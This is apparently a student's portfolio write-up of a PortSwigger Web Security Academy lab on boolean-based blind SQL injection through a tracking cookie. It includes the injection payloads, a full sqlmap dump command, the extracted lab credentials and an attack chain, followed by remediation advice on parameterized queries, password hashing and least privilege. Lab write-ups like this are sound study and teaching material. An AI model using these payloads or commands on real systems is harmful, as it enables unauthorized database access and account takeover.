



# Blind SQL Injection with Conditional Responses

> Boolean-based blind SQL injection via a tracking cookie, exploited to extract plaintext credentials from a PostgreSQL backend and achieve administrative account takeover on PortSwigger Web Security Academy.


---

## Table of Contents

- [Overview](#overview)
- [Scope & Objectives](#scope--objectives)
- [Methodology](#methodology)
- [Findings / Results](#findings--results)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools & Environment](#tools--environment)
- [Evidence](#evidence)
- [Remediation](#remediation)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

Web applications that embed unsanitized user-supplied input into SQL queries — even when those queries return no visible output — remain vulnerable to data extraction through inference-based techniques. Blind SQL injection exploits the application's conditional behavior to reconstruct sensitive data one bit at a time, bypassing the assumption that invisible query results are unexploitable.

This writeup documents the exploitation of a blind SQL injection vulnerability in a tracking cookie parameter on PortSwigger Web Security Academy. A boolean-based inference technique was applied against a PostgreSQL backend to enumerate the `users` table and recover plaintext credentials for the `administrator` account.

The lab was solved by logging in as `administrator`, confirming full credential compromise via a non-destructive, read-only attack chain.

> **Key Outcome:** Full credential dump of three user accounts (including `administrator`) extracted from a PostgreSQL `users` table via boolean-based blind SQL injection in the `TrackingId` cookie parameter, resulting in authenticated account takeover.

---

## Scope & Objectives

### Objectives

- Identify and confirm a blind SQL injection vulnerability in the `TrackingId` session cookie.
- Determine the backend DBMS and enumerate the `public.users` table schema.
- Extract plaintext credentials for the `administrator` account.
- Authenticate as `administrator` to satisfy the lab completion condition.

### In Scope

| Target | Description | Type |
|--------|-------------|------|
| `0aa100ca0444ed198105fc1d009b00e7.web-security-academy.net` | PortSwigger lab instance | Web Application |
| `/login` endpoint (POST) | Authentication form accepting username and password | HTTP Endpoint |
| `TrackingId` cookie | Analytics cookie parameter injected into a backend SQL query | Cookie Parameter |
| `public.users` table | Target table containing `username` and `password` columns | Database Object |

### Out of Scope

- All other PortSwigger lab instances and user accounts not belonging to this session.
- Any attempt to write to or modify the database (INSERT, UPDATE, DELETE, DROP).
- Network-level attacks, denial-of-service, or infrastructure enumeration.

### Engagement Type

> **Type:** Gray-box (lab description disclosed the vulnerable parameter category and target table)
> **Authorization:** PortSwigger Web Security Academy — fully sanctioned lab environment
> **Duration:** Single session

---

## Methodology

This assessment followed the OWASP Testing Guide v4.2 (OTG-INPVAL-005 — Testing for SQL Injection) combined with the PTES exploitation phase structure. MITRE ATT&CK was used post-exploitation for technique mapping.

### Phase 1 — Reconnaissance and Traffic Capture

Burp Suite Community Edition was configured as an intercepting proxy. A standard login attempt was submitted to populate the browser's session cookies. The intercepted POST request to `/login` revealed two cookies: `TrackingId` and `session`.

The `TrackingId` cookie was identified as a candidate injection point based on the lab description's disclosure that an analytics query is performed against its value, and that the application conditionally renders a "Welcome back" message when the query returns at least one row.

### Phase 2 — Injection Point Confirmation

The captured HTTP request, including all headers and the full cookie string, was saved to a file and passed to `sqlmap` with the `--cookie` flag targeting the `TrackingId` parameter. The `--level` and `--risk` flags were elevated to ensure thorough testing of cookie parameters.

`sqlmap` confirmed injection using a boolean-based blind technique:

```
Type: boolean-based blind
Title: AND boolean-based blind – WHERE or HAVING clause
Payload: TrackingId=EEhrgu6COj4spjfV' AND 5261=5261 AND 'gywA'='gywA
```

The backend DBMS was fingerprinted as **PostgreSQL**.

### Phase 3 — Data Extraction

With injection confirmed, `sqlmap` was directed to dump the `users` table in the `public` schema. The tool iteratively inferred each character of the target columns (`username`, `password`) using boolean conditions against the application's conditional response behavior.

```bash
sqlmap -u "https://0aa100ca0444ed198105fc1d009b00e7.web-security-academy.net/" \
  --cookie "TrackingId=EEhrgu6COj4spjfV; session=IfELFnG0xJj03LRVdNkUD1FdDbUY2kBO" \
  -p TrackingId \
  --dbms=postgresql \
  --dump \
  -T users \
  -D public \
  --batch
```

### Phase 4 — Authentication and Objective Completion

The recovered `administrator` credentials were submitted to the `/login` endpoint. Successful authentication redirected to `/my-account?id=administrator`, and the lab status updated to "Solved."

### Framework Alignment

| Phase | Framework Reference |
|-------|---------------------|
| Injection point identification | OWASP Testing Guide v4.2 — OTG-INPVAL-005 |
| Exploitation | PTES — Exploitation Phase |
| Technique classification | MITRE ATT&CK — T1190, T1552.001 |
| Vulnerability classification | CWE-89, OWASP A03:2021 |

---

## Findings / Results

### Finding F-01 — Boolean-Based Blind SQL Injection in TrackingId Cookie

---

**ID:** F-01
**Severity:** `[HIGH]`
**CVSS v3.1 Score:** 7.5
**CVSS v3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
**CWE:** CWE-89 — Improper Neutralization of Special Elements used in an SQL Command
**OWASP Category:** A03:2021 — Injection
**MITRE ATT&CK TTPs:**
- T1190 — Exploit Public-Facing Application
- T1552.001 — Unsecured Credentials: Credentials In Files (post-extraction, CSV dump)

**Affected Component:** `TrackingId` cookie parameter — analytics SQL query (backend, PostgreSQL)

---

#### Description

The application constructs a SQL query using the raw value of the `TrackingId` cookie without input sanitization or parameterization. The query result is not returned to the client; however, the application conditionally renders a "Welcome back" string when the query returns one or more rows. This differential response constitutes an oracle that allows an attacker to infer the truth value of arbitrary SQL subqueries, enabling full data extraction via character-by-character enumeration.

No authentication is required to send a modified cookie value. The vulnerability is exploitable from any network position with HTTP access to the application.

---

#### Technical Impact

- Full read access to all data in the `public` schema of the PostgreSQL database.
- Confirmed extraction of all records from the `users` table, including plaintext `username` and `password` values for three accounts: `administrator`, `carlos`, and `wiener`.
- Backend DBMS version and schema structure disclosed through automated enumeration.

#### Business Impact

- Complete compromise of all user account credentials stored in the database.
- Successful authentication as `administrator` grants full application-level privilege, including access to any administrative functions or privileged data.
- No authentication barrier existed at the injection point — any unauthenticated external actor could replicate this attack against a live deployment.

---

#### Proof of Concept

**Step 1 — Capture the base request**

Intercept the POST request to `/login` using Burp Suite. The `TrackingId` cookie is present in the request headers.

```
Cookie: TrackingId=EEhrgu6COj4spjfV; session=IfELFnG0xJj03LRVdNkUD1FdDbUY2kBO
```

**Step 2 — Confirm injection**

Append a boolean condition to the `TrackingId` value. A true condition returns the "Welcome back" string; a false condition suppresses it.

```sql
-- True condition (response includes "Welcome back")
TrackingId=EEhrgu6COj4spjfV' AND '1'='1

-- False condition (response omits "Welcome back")
TrackingId=EEhrgu6COj4spjfV' AND '1'='2
```

**Step 3 — Automated extraction**

```bash
sqlmap -u "https://0aa100ca0444ed198105fc1d009b00e7.web-security-academy.net/" \
  --cookie "TrackingId=EEhrgu6COj4spjfV; session=IfELFnG0xJj03LRVdNkUD1FdDbUY2kBO" \
  -p TrackingId \
  --dbms=postgresql \
  --dump \
  -T users \
  -D public \
  --batch
```

**Extracted data:**

```
Database: public
Table: users
[3 entries]

+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | ju5sl7dscs68gdmwsniv |
| carlos        | ma7h4hemznvfoaouqbbc |
| wiener        | tu8vv6er68n1hohv7v3t |
+---------------+----------------------+
```

---

#### Reproduction Steps

1. Configure Burp Suite as an intercepting proxy.
2. Navigate to the target application and submit any login attempt to populate session cookies.
3. Capture the POST `/login` request and note the `TrackingId` cookie value.
4. Save the raw request to a file (e.g., `request.txt`).
5. Execute the `sqlmap` command above using the captured `TrackingId` value.
6. Confirm DBMS as PostgreSQL and allow `sqlmap` to dump the `users` table.
7. Use the extracted `administrator` credentials to log in at `/login`.

---

## Risk Summary

| ID | Finding | Severity | CVSS | Affected Component | Priority |
|----|---------|----------|------|--------------------|----------|
| F-01 | Boolean-Based Blind SQL Injection in TrackingId Cookie | `[HIGH]` | 7.5 | `TrackingId` cookie — analytics query | `[IMMEDIATE]` |

---

## Attack Chain

```
[Unauthenticated Attacker]
        |
        | 1. HTTP request with modified TrackingId cookie
        v
[Web Application — /login endpoint]
        |
        | 2. Unsanitized cookie value embedded in SQL query
        v
[PostgreSQL Backend — public schema]
        |
        | 3. Boolean inference via conditional "Welcome back" response
        v
[Character-by-character data extraction]
        |
        | 4. Full dump: users table (username, password — plaintext)
        v
[Credential use — POST /login with administrator:ju5sl7dscs68gdmwsniv]
        |
        | 5. Authenticated session as administrator
        v
[Account Takeover — /my-account?id=administrator]
```

**MITRE ATT&CK Chain:**

| Step | Tactic | Technique | ID |
|------|--------|-----------|-----|
| 1 | Initial Access | Exploit Public-Facing Application | T1190 |
| 2 | Collection | Data from Information Repositories (DB enumeration) | T1213 |
| 3 | Credential Access | Unsecured Credentials | T1552.001 |
| 4 | Privilege Escalation | Valid Accounts (administrator login) | T1078 |

---

## Tools & Environment

| Tool | Version | Purpose |
|------|---------|---------|
| Burp Suite Community Edition | v2026.3.2 | HTTP proxy, request interception, cookie capture |
| SQLMap | Latest (Kali rolling) | Automated blind SQL injection and data extraction |
| Kali Linux | Rolling release | Attacker operating environment |
| Firefox (Kali) | Chromium 146 | Browser for lab interaction and login verification |
| PortSwigger Web Security Academy | — | Authorized lab platform |

**Target Environment:**

| Component | Detail |
|-----------|--------|
| Application | PortSwigger Web Security Academy — Practitioner lab |
| Backend DBMS | PostgreSQL (confirmed by SQLMap fingerprinting) |
| Vulnerable Parameter | `TrackingId` cookie |
| Target Table | `public.users` — columns: `username`, `password` |

---

## Evidence

### E-01 — TrackingId Cookie Captured in Burp Suite


*Caption: Burp Suite Community Edition v2026.3.2 intercepting the POST /login request. The TrackingId cookie value (`EEhrgu6COj4spjfV`) and session token are visible in the request headers. This parameter was identified as the injection point for the boolean-based blind SQL injection.*

---

### E-02 — SQLMap Extraction Output — users Table Dumped


*Caption: SQLMap output confirming the backend DBMS as PostgreSQL via boolean-based blind inference. The tool enumerated 3 entries from `public.users`, recovering plaintext credentials for administrator (`ju5sl7dscs68gdmwsniv`), carlos, and wiener. The injected payload and extraction timestamps are visible in the log.*

---

### E-03 — Lab Solved — Authenticated as Administrator


*Caption: Successful authentication as `administrator` using the extracted credential. The lab banner displays "Congratulations, you solved the lab!" and the account page confirms `Your username is: administrator`. URL: `/my-account?id=administrator`.*

---

## Remediation

### R-01 — Parameterize All Database Queries (Addresses F-01)

**Priority:** `[IMMEDIATE]`

Replace dynamic string concatenation in the analytics query with parameterized statements using bound parameters. The query must never accept raw cookie input as an inline SQL fragment.

**PostgreSQL (Python/psycopg2 example):**

```python
# Vulnerable pattern — DO NOT USE
cursor.execute(f"SELECT * FROM tracking WHERE id = '{tracking_id}'")

# Secure pattern — parameterized query
cursor.execute("SELECT * FROM tracking WHERE id = %s", (tracking_id,))
```

**PostgreSQL (Java/JDBC example):**

```java
// Secure pattern
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM tracking WHERE id = ?"
);
stmt.setString(1, trackingId);
```

**Retest Criteria:** After deployment, submit the payload `' AND '1'='1` as the `TrackingId` cookie value. Confirm that the "Welcome back" message does not appear or disappear based on this condition. Verify with `sqlmap --technique=B` — expected result: no injectable parameter detected.

---

### R-02 — Store Credentials Using Adaptive Hashing (Defense in Depth)

**Priority:** `[SHORT-TERM]`

Plaintext passwords were recovered directly from the database. Implement adaptive hashing (bcrypt, scrypt, or Argon2id) for all stored credentials. This limits the impact of any future data extraction to computationally expensive offline cracking attempts rather than immediate plaintext exposure.

```python
# Python — bcrypt example
import bcrypt
hashed = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt(rounds=12))
```

**Retest Criteria:** Confirm that no column in `users` or equivalent tables stores plaintext or weakly-hashed (MD5/SHA-1) passwords. Verify hash format begins with `$2b$` (bcrypt) or equivalent Argon2id prefix.

---

### R-03 — Implement Web Application Firewall Rule for SQL Metacharacters in Cookies

**Priority:** `[SHORT-TERM]`

Deploy a WAF rule to detect and block SQL metacharacters (`'`, `--`, `AND`, `OR`, `UNION`, `SELECT`) in cookie values. This is a compensating control — not a substitute for parameterization — but reduces automated exploitation risk.

---

### R-04 — Enforce Principle of Least Privilege on Database Accounts

**Priority:** `[PLANNED]`

The analytics query account should not have SELECT access to the `users` table. Separate application database roles by function: the analytics role should access only analytics tables. Credential tables should require elevated, explicitly granted roles.

---

## Lessons Learned

### Technical

- Boolean-based blind SQL injection does not require error messages or query output to be exploitable. The single binary signal of a conditional application response is sufficient for full data extraction.
- Cookie parameters are frequently overlooked during manual code review because they are treated as trusted session infrastructure rather than user-controlled input. All parameters — regardless of transport mechanism — must be sanitized or parameterized.
- SQLMap's `--batch` flag with DBMS pre-specified (`--dbms=postgresql`) significantly reduced enumeration time by eliminating unnecessary DBMS fingerprinting rounds.
- PostgreSQL's string comparison functions (`SUBSTR`, `LENGTH`) are directly usable in boolean inference payloads, and SQLMap's boolean-based engine handles this transparently.

### Process

- Saving the full raw Burp Suite request to a file before running `sqlmap` is essential for cookie-based injection — passing a request file via `-r` ensures all headers and cookie values are correctly reproduced.
- Annotating terminal output screenshots (circling the extracted table and payload block) increases evidence clarity for portfolio and report use.

### Skills Demonstrated

`blind-sqli` `boolean-inference` `postgresql` `sqlmap` `burp-suite` `credential-extraction` `owasp-a03` `cookie-injection` `web-application-security` `portswigger`

---

## References

| Resource | URL |
|----------|-----|
| OWASP Testing Guide v4.2 — SQL Injection (OTG-INPVAL-005) | https://owasp.org/www-project-web-security-testing-guide/ |
| OWASP A03:2021 — Injection | https://owasp.org/Top10/A03_2021-Injection/ |
| CWE-89 — SQL Injection | https://cwe.mitre.org/data/definitions/89.html |
| MITRE ATT&CK — T1190 Exploit Public-Facing Application | https://attack.mitre.org/techniques/T1190/ |
| MITRE ATT&CK — T1552.001 Credentials In Files | https://attack.mitre.org/techniques/T1552/001/ |
| CVSS v3.1 Calculator — F-01 Vector | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator |
| PortSwigger Lab — Blind SQL Injection with Conditional Responses | https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses |
| SQLMap Documentation | https://sqlmap.org/ |
| NIST SP 800-115 — Technical Guide to Information Security Testing | https://csrc.nist.gov/publications/detail/sp/800-115/final |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> *"Built in the lab. Documented for the field."*

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated lab environments or sanctioned CTF platforms. No unauthorized systems were accessed. This project is intended for educational and portfolio purposes only.
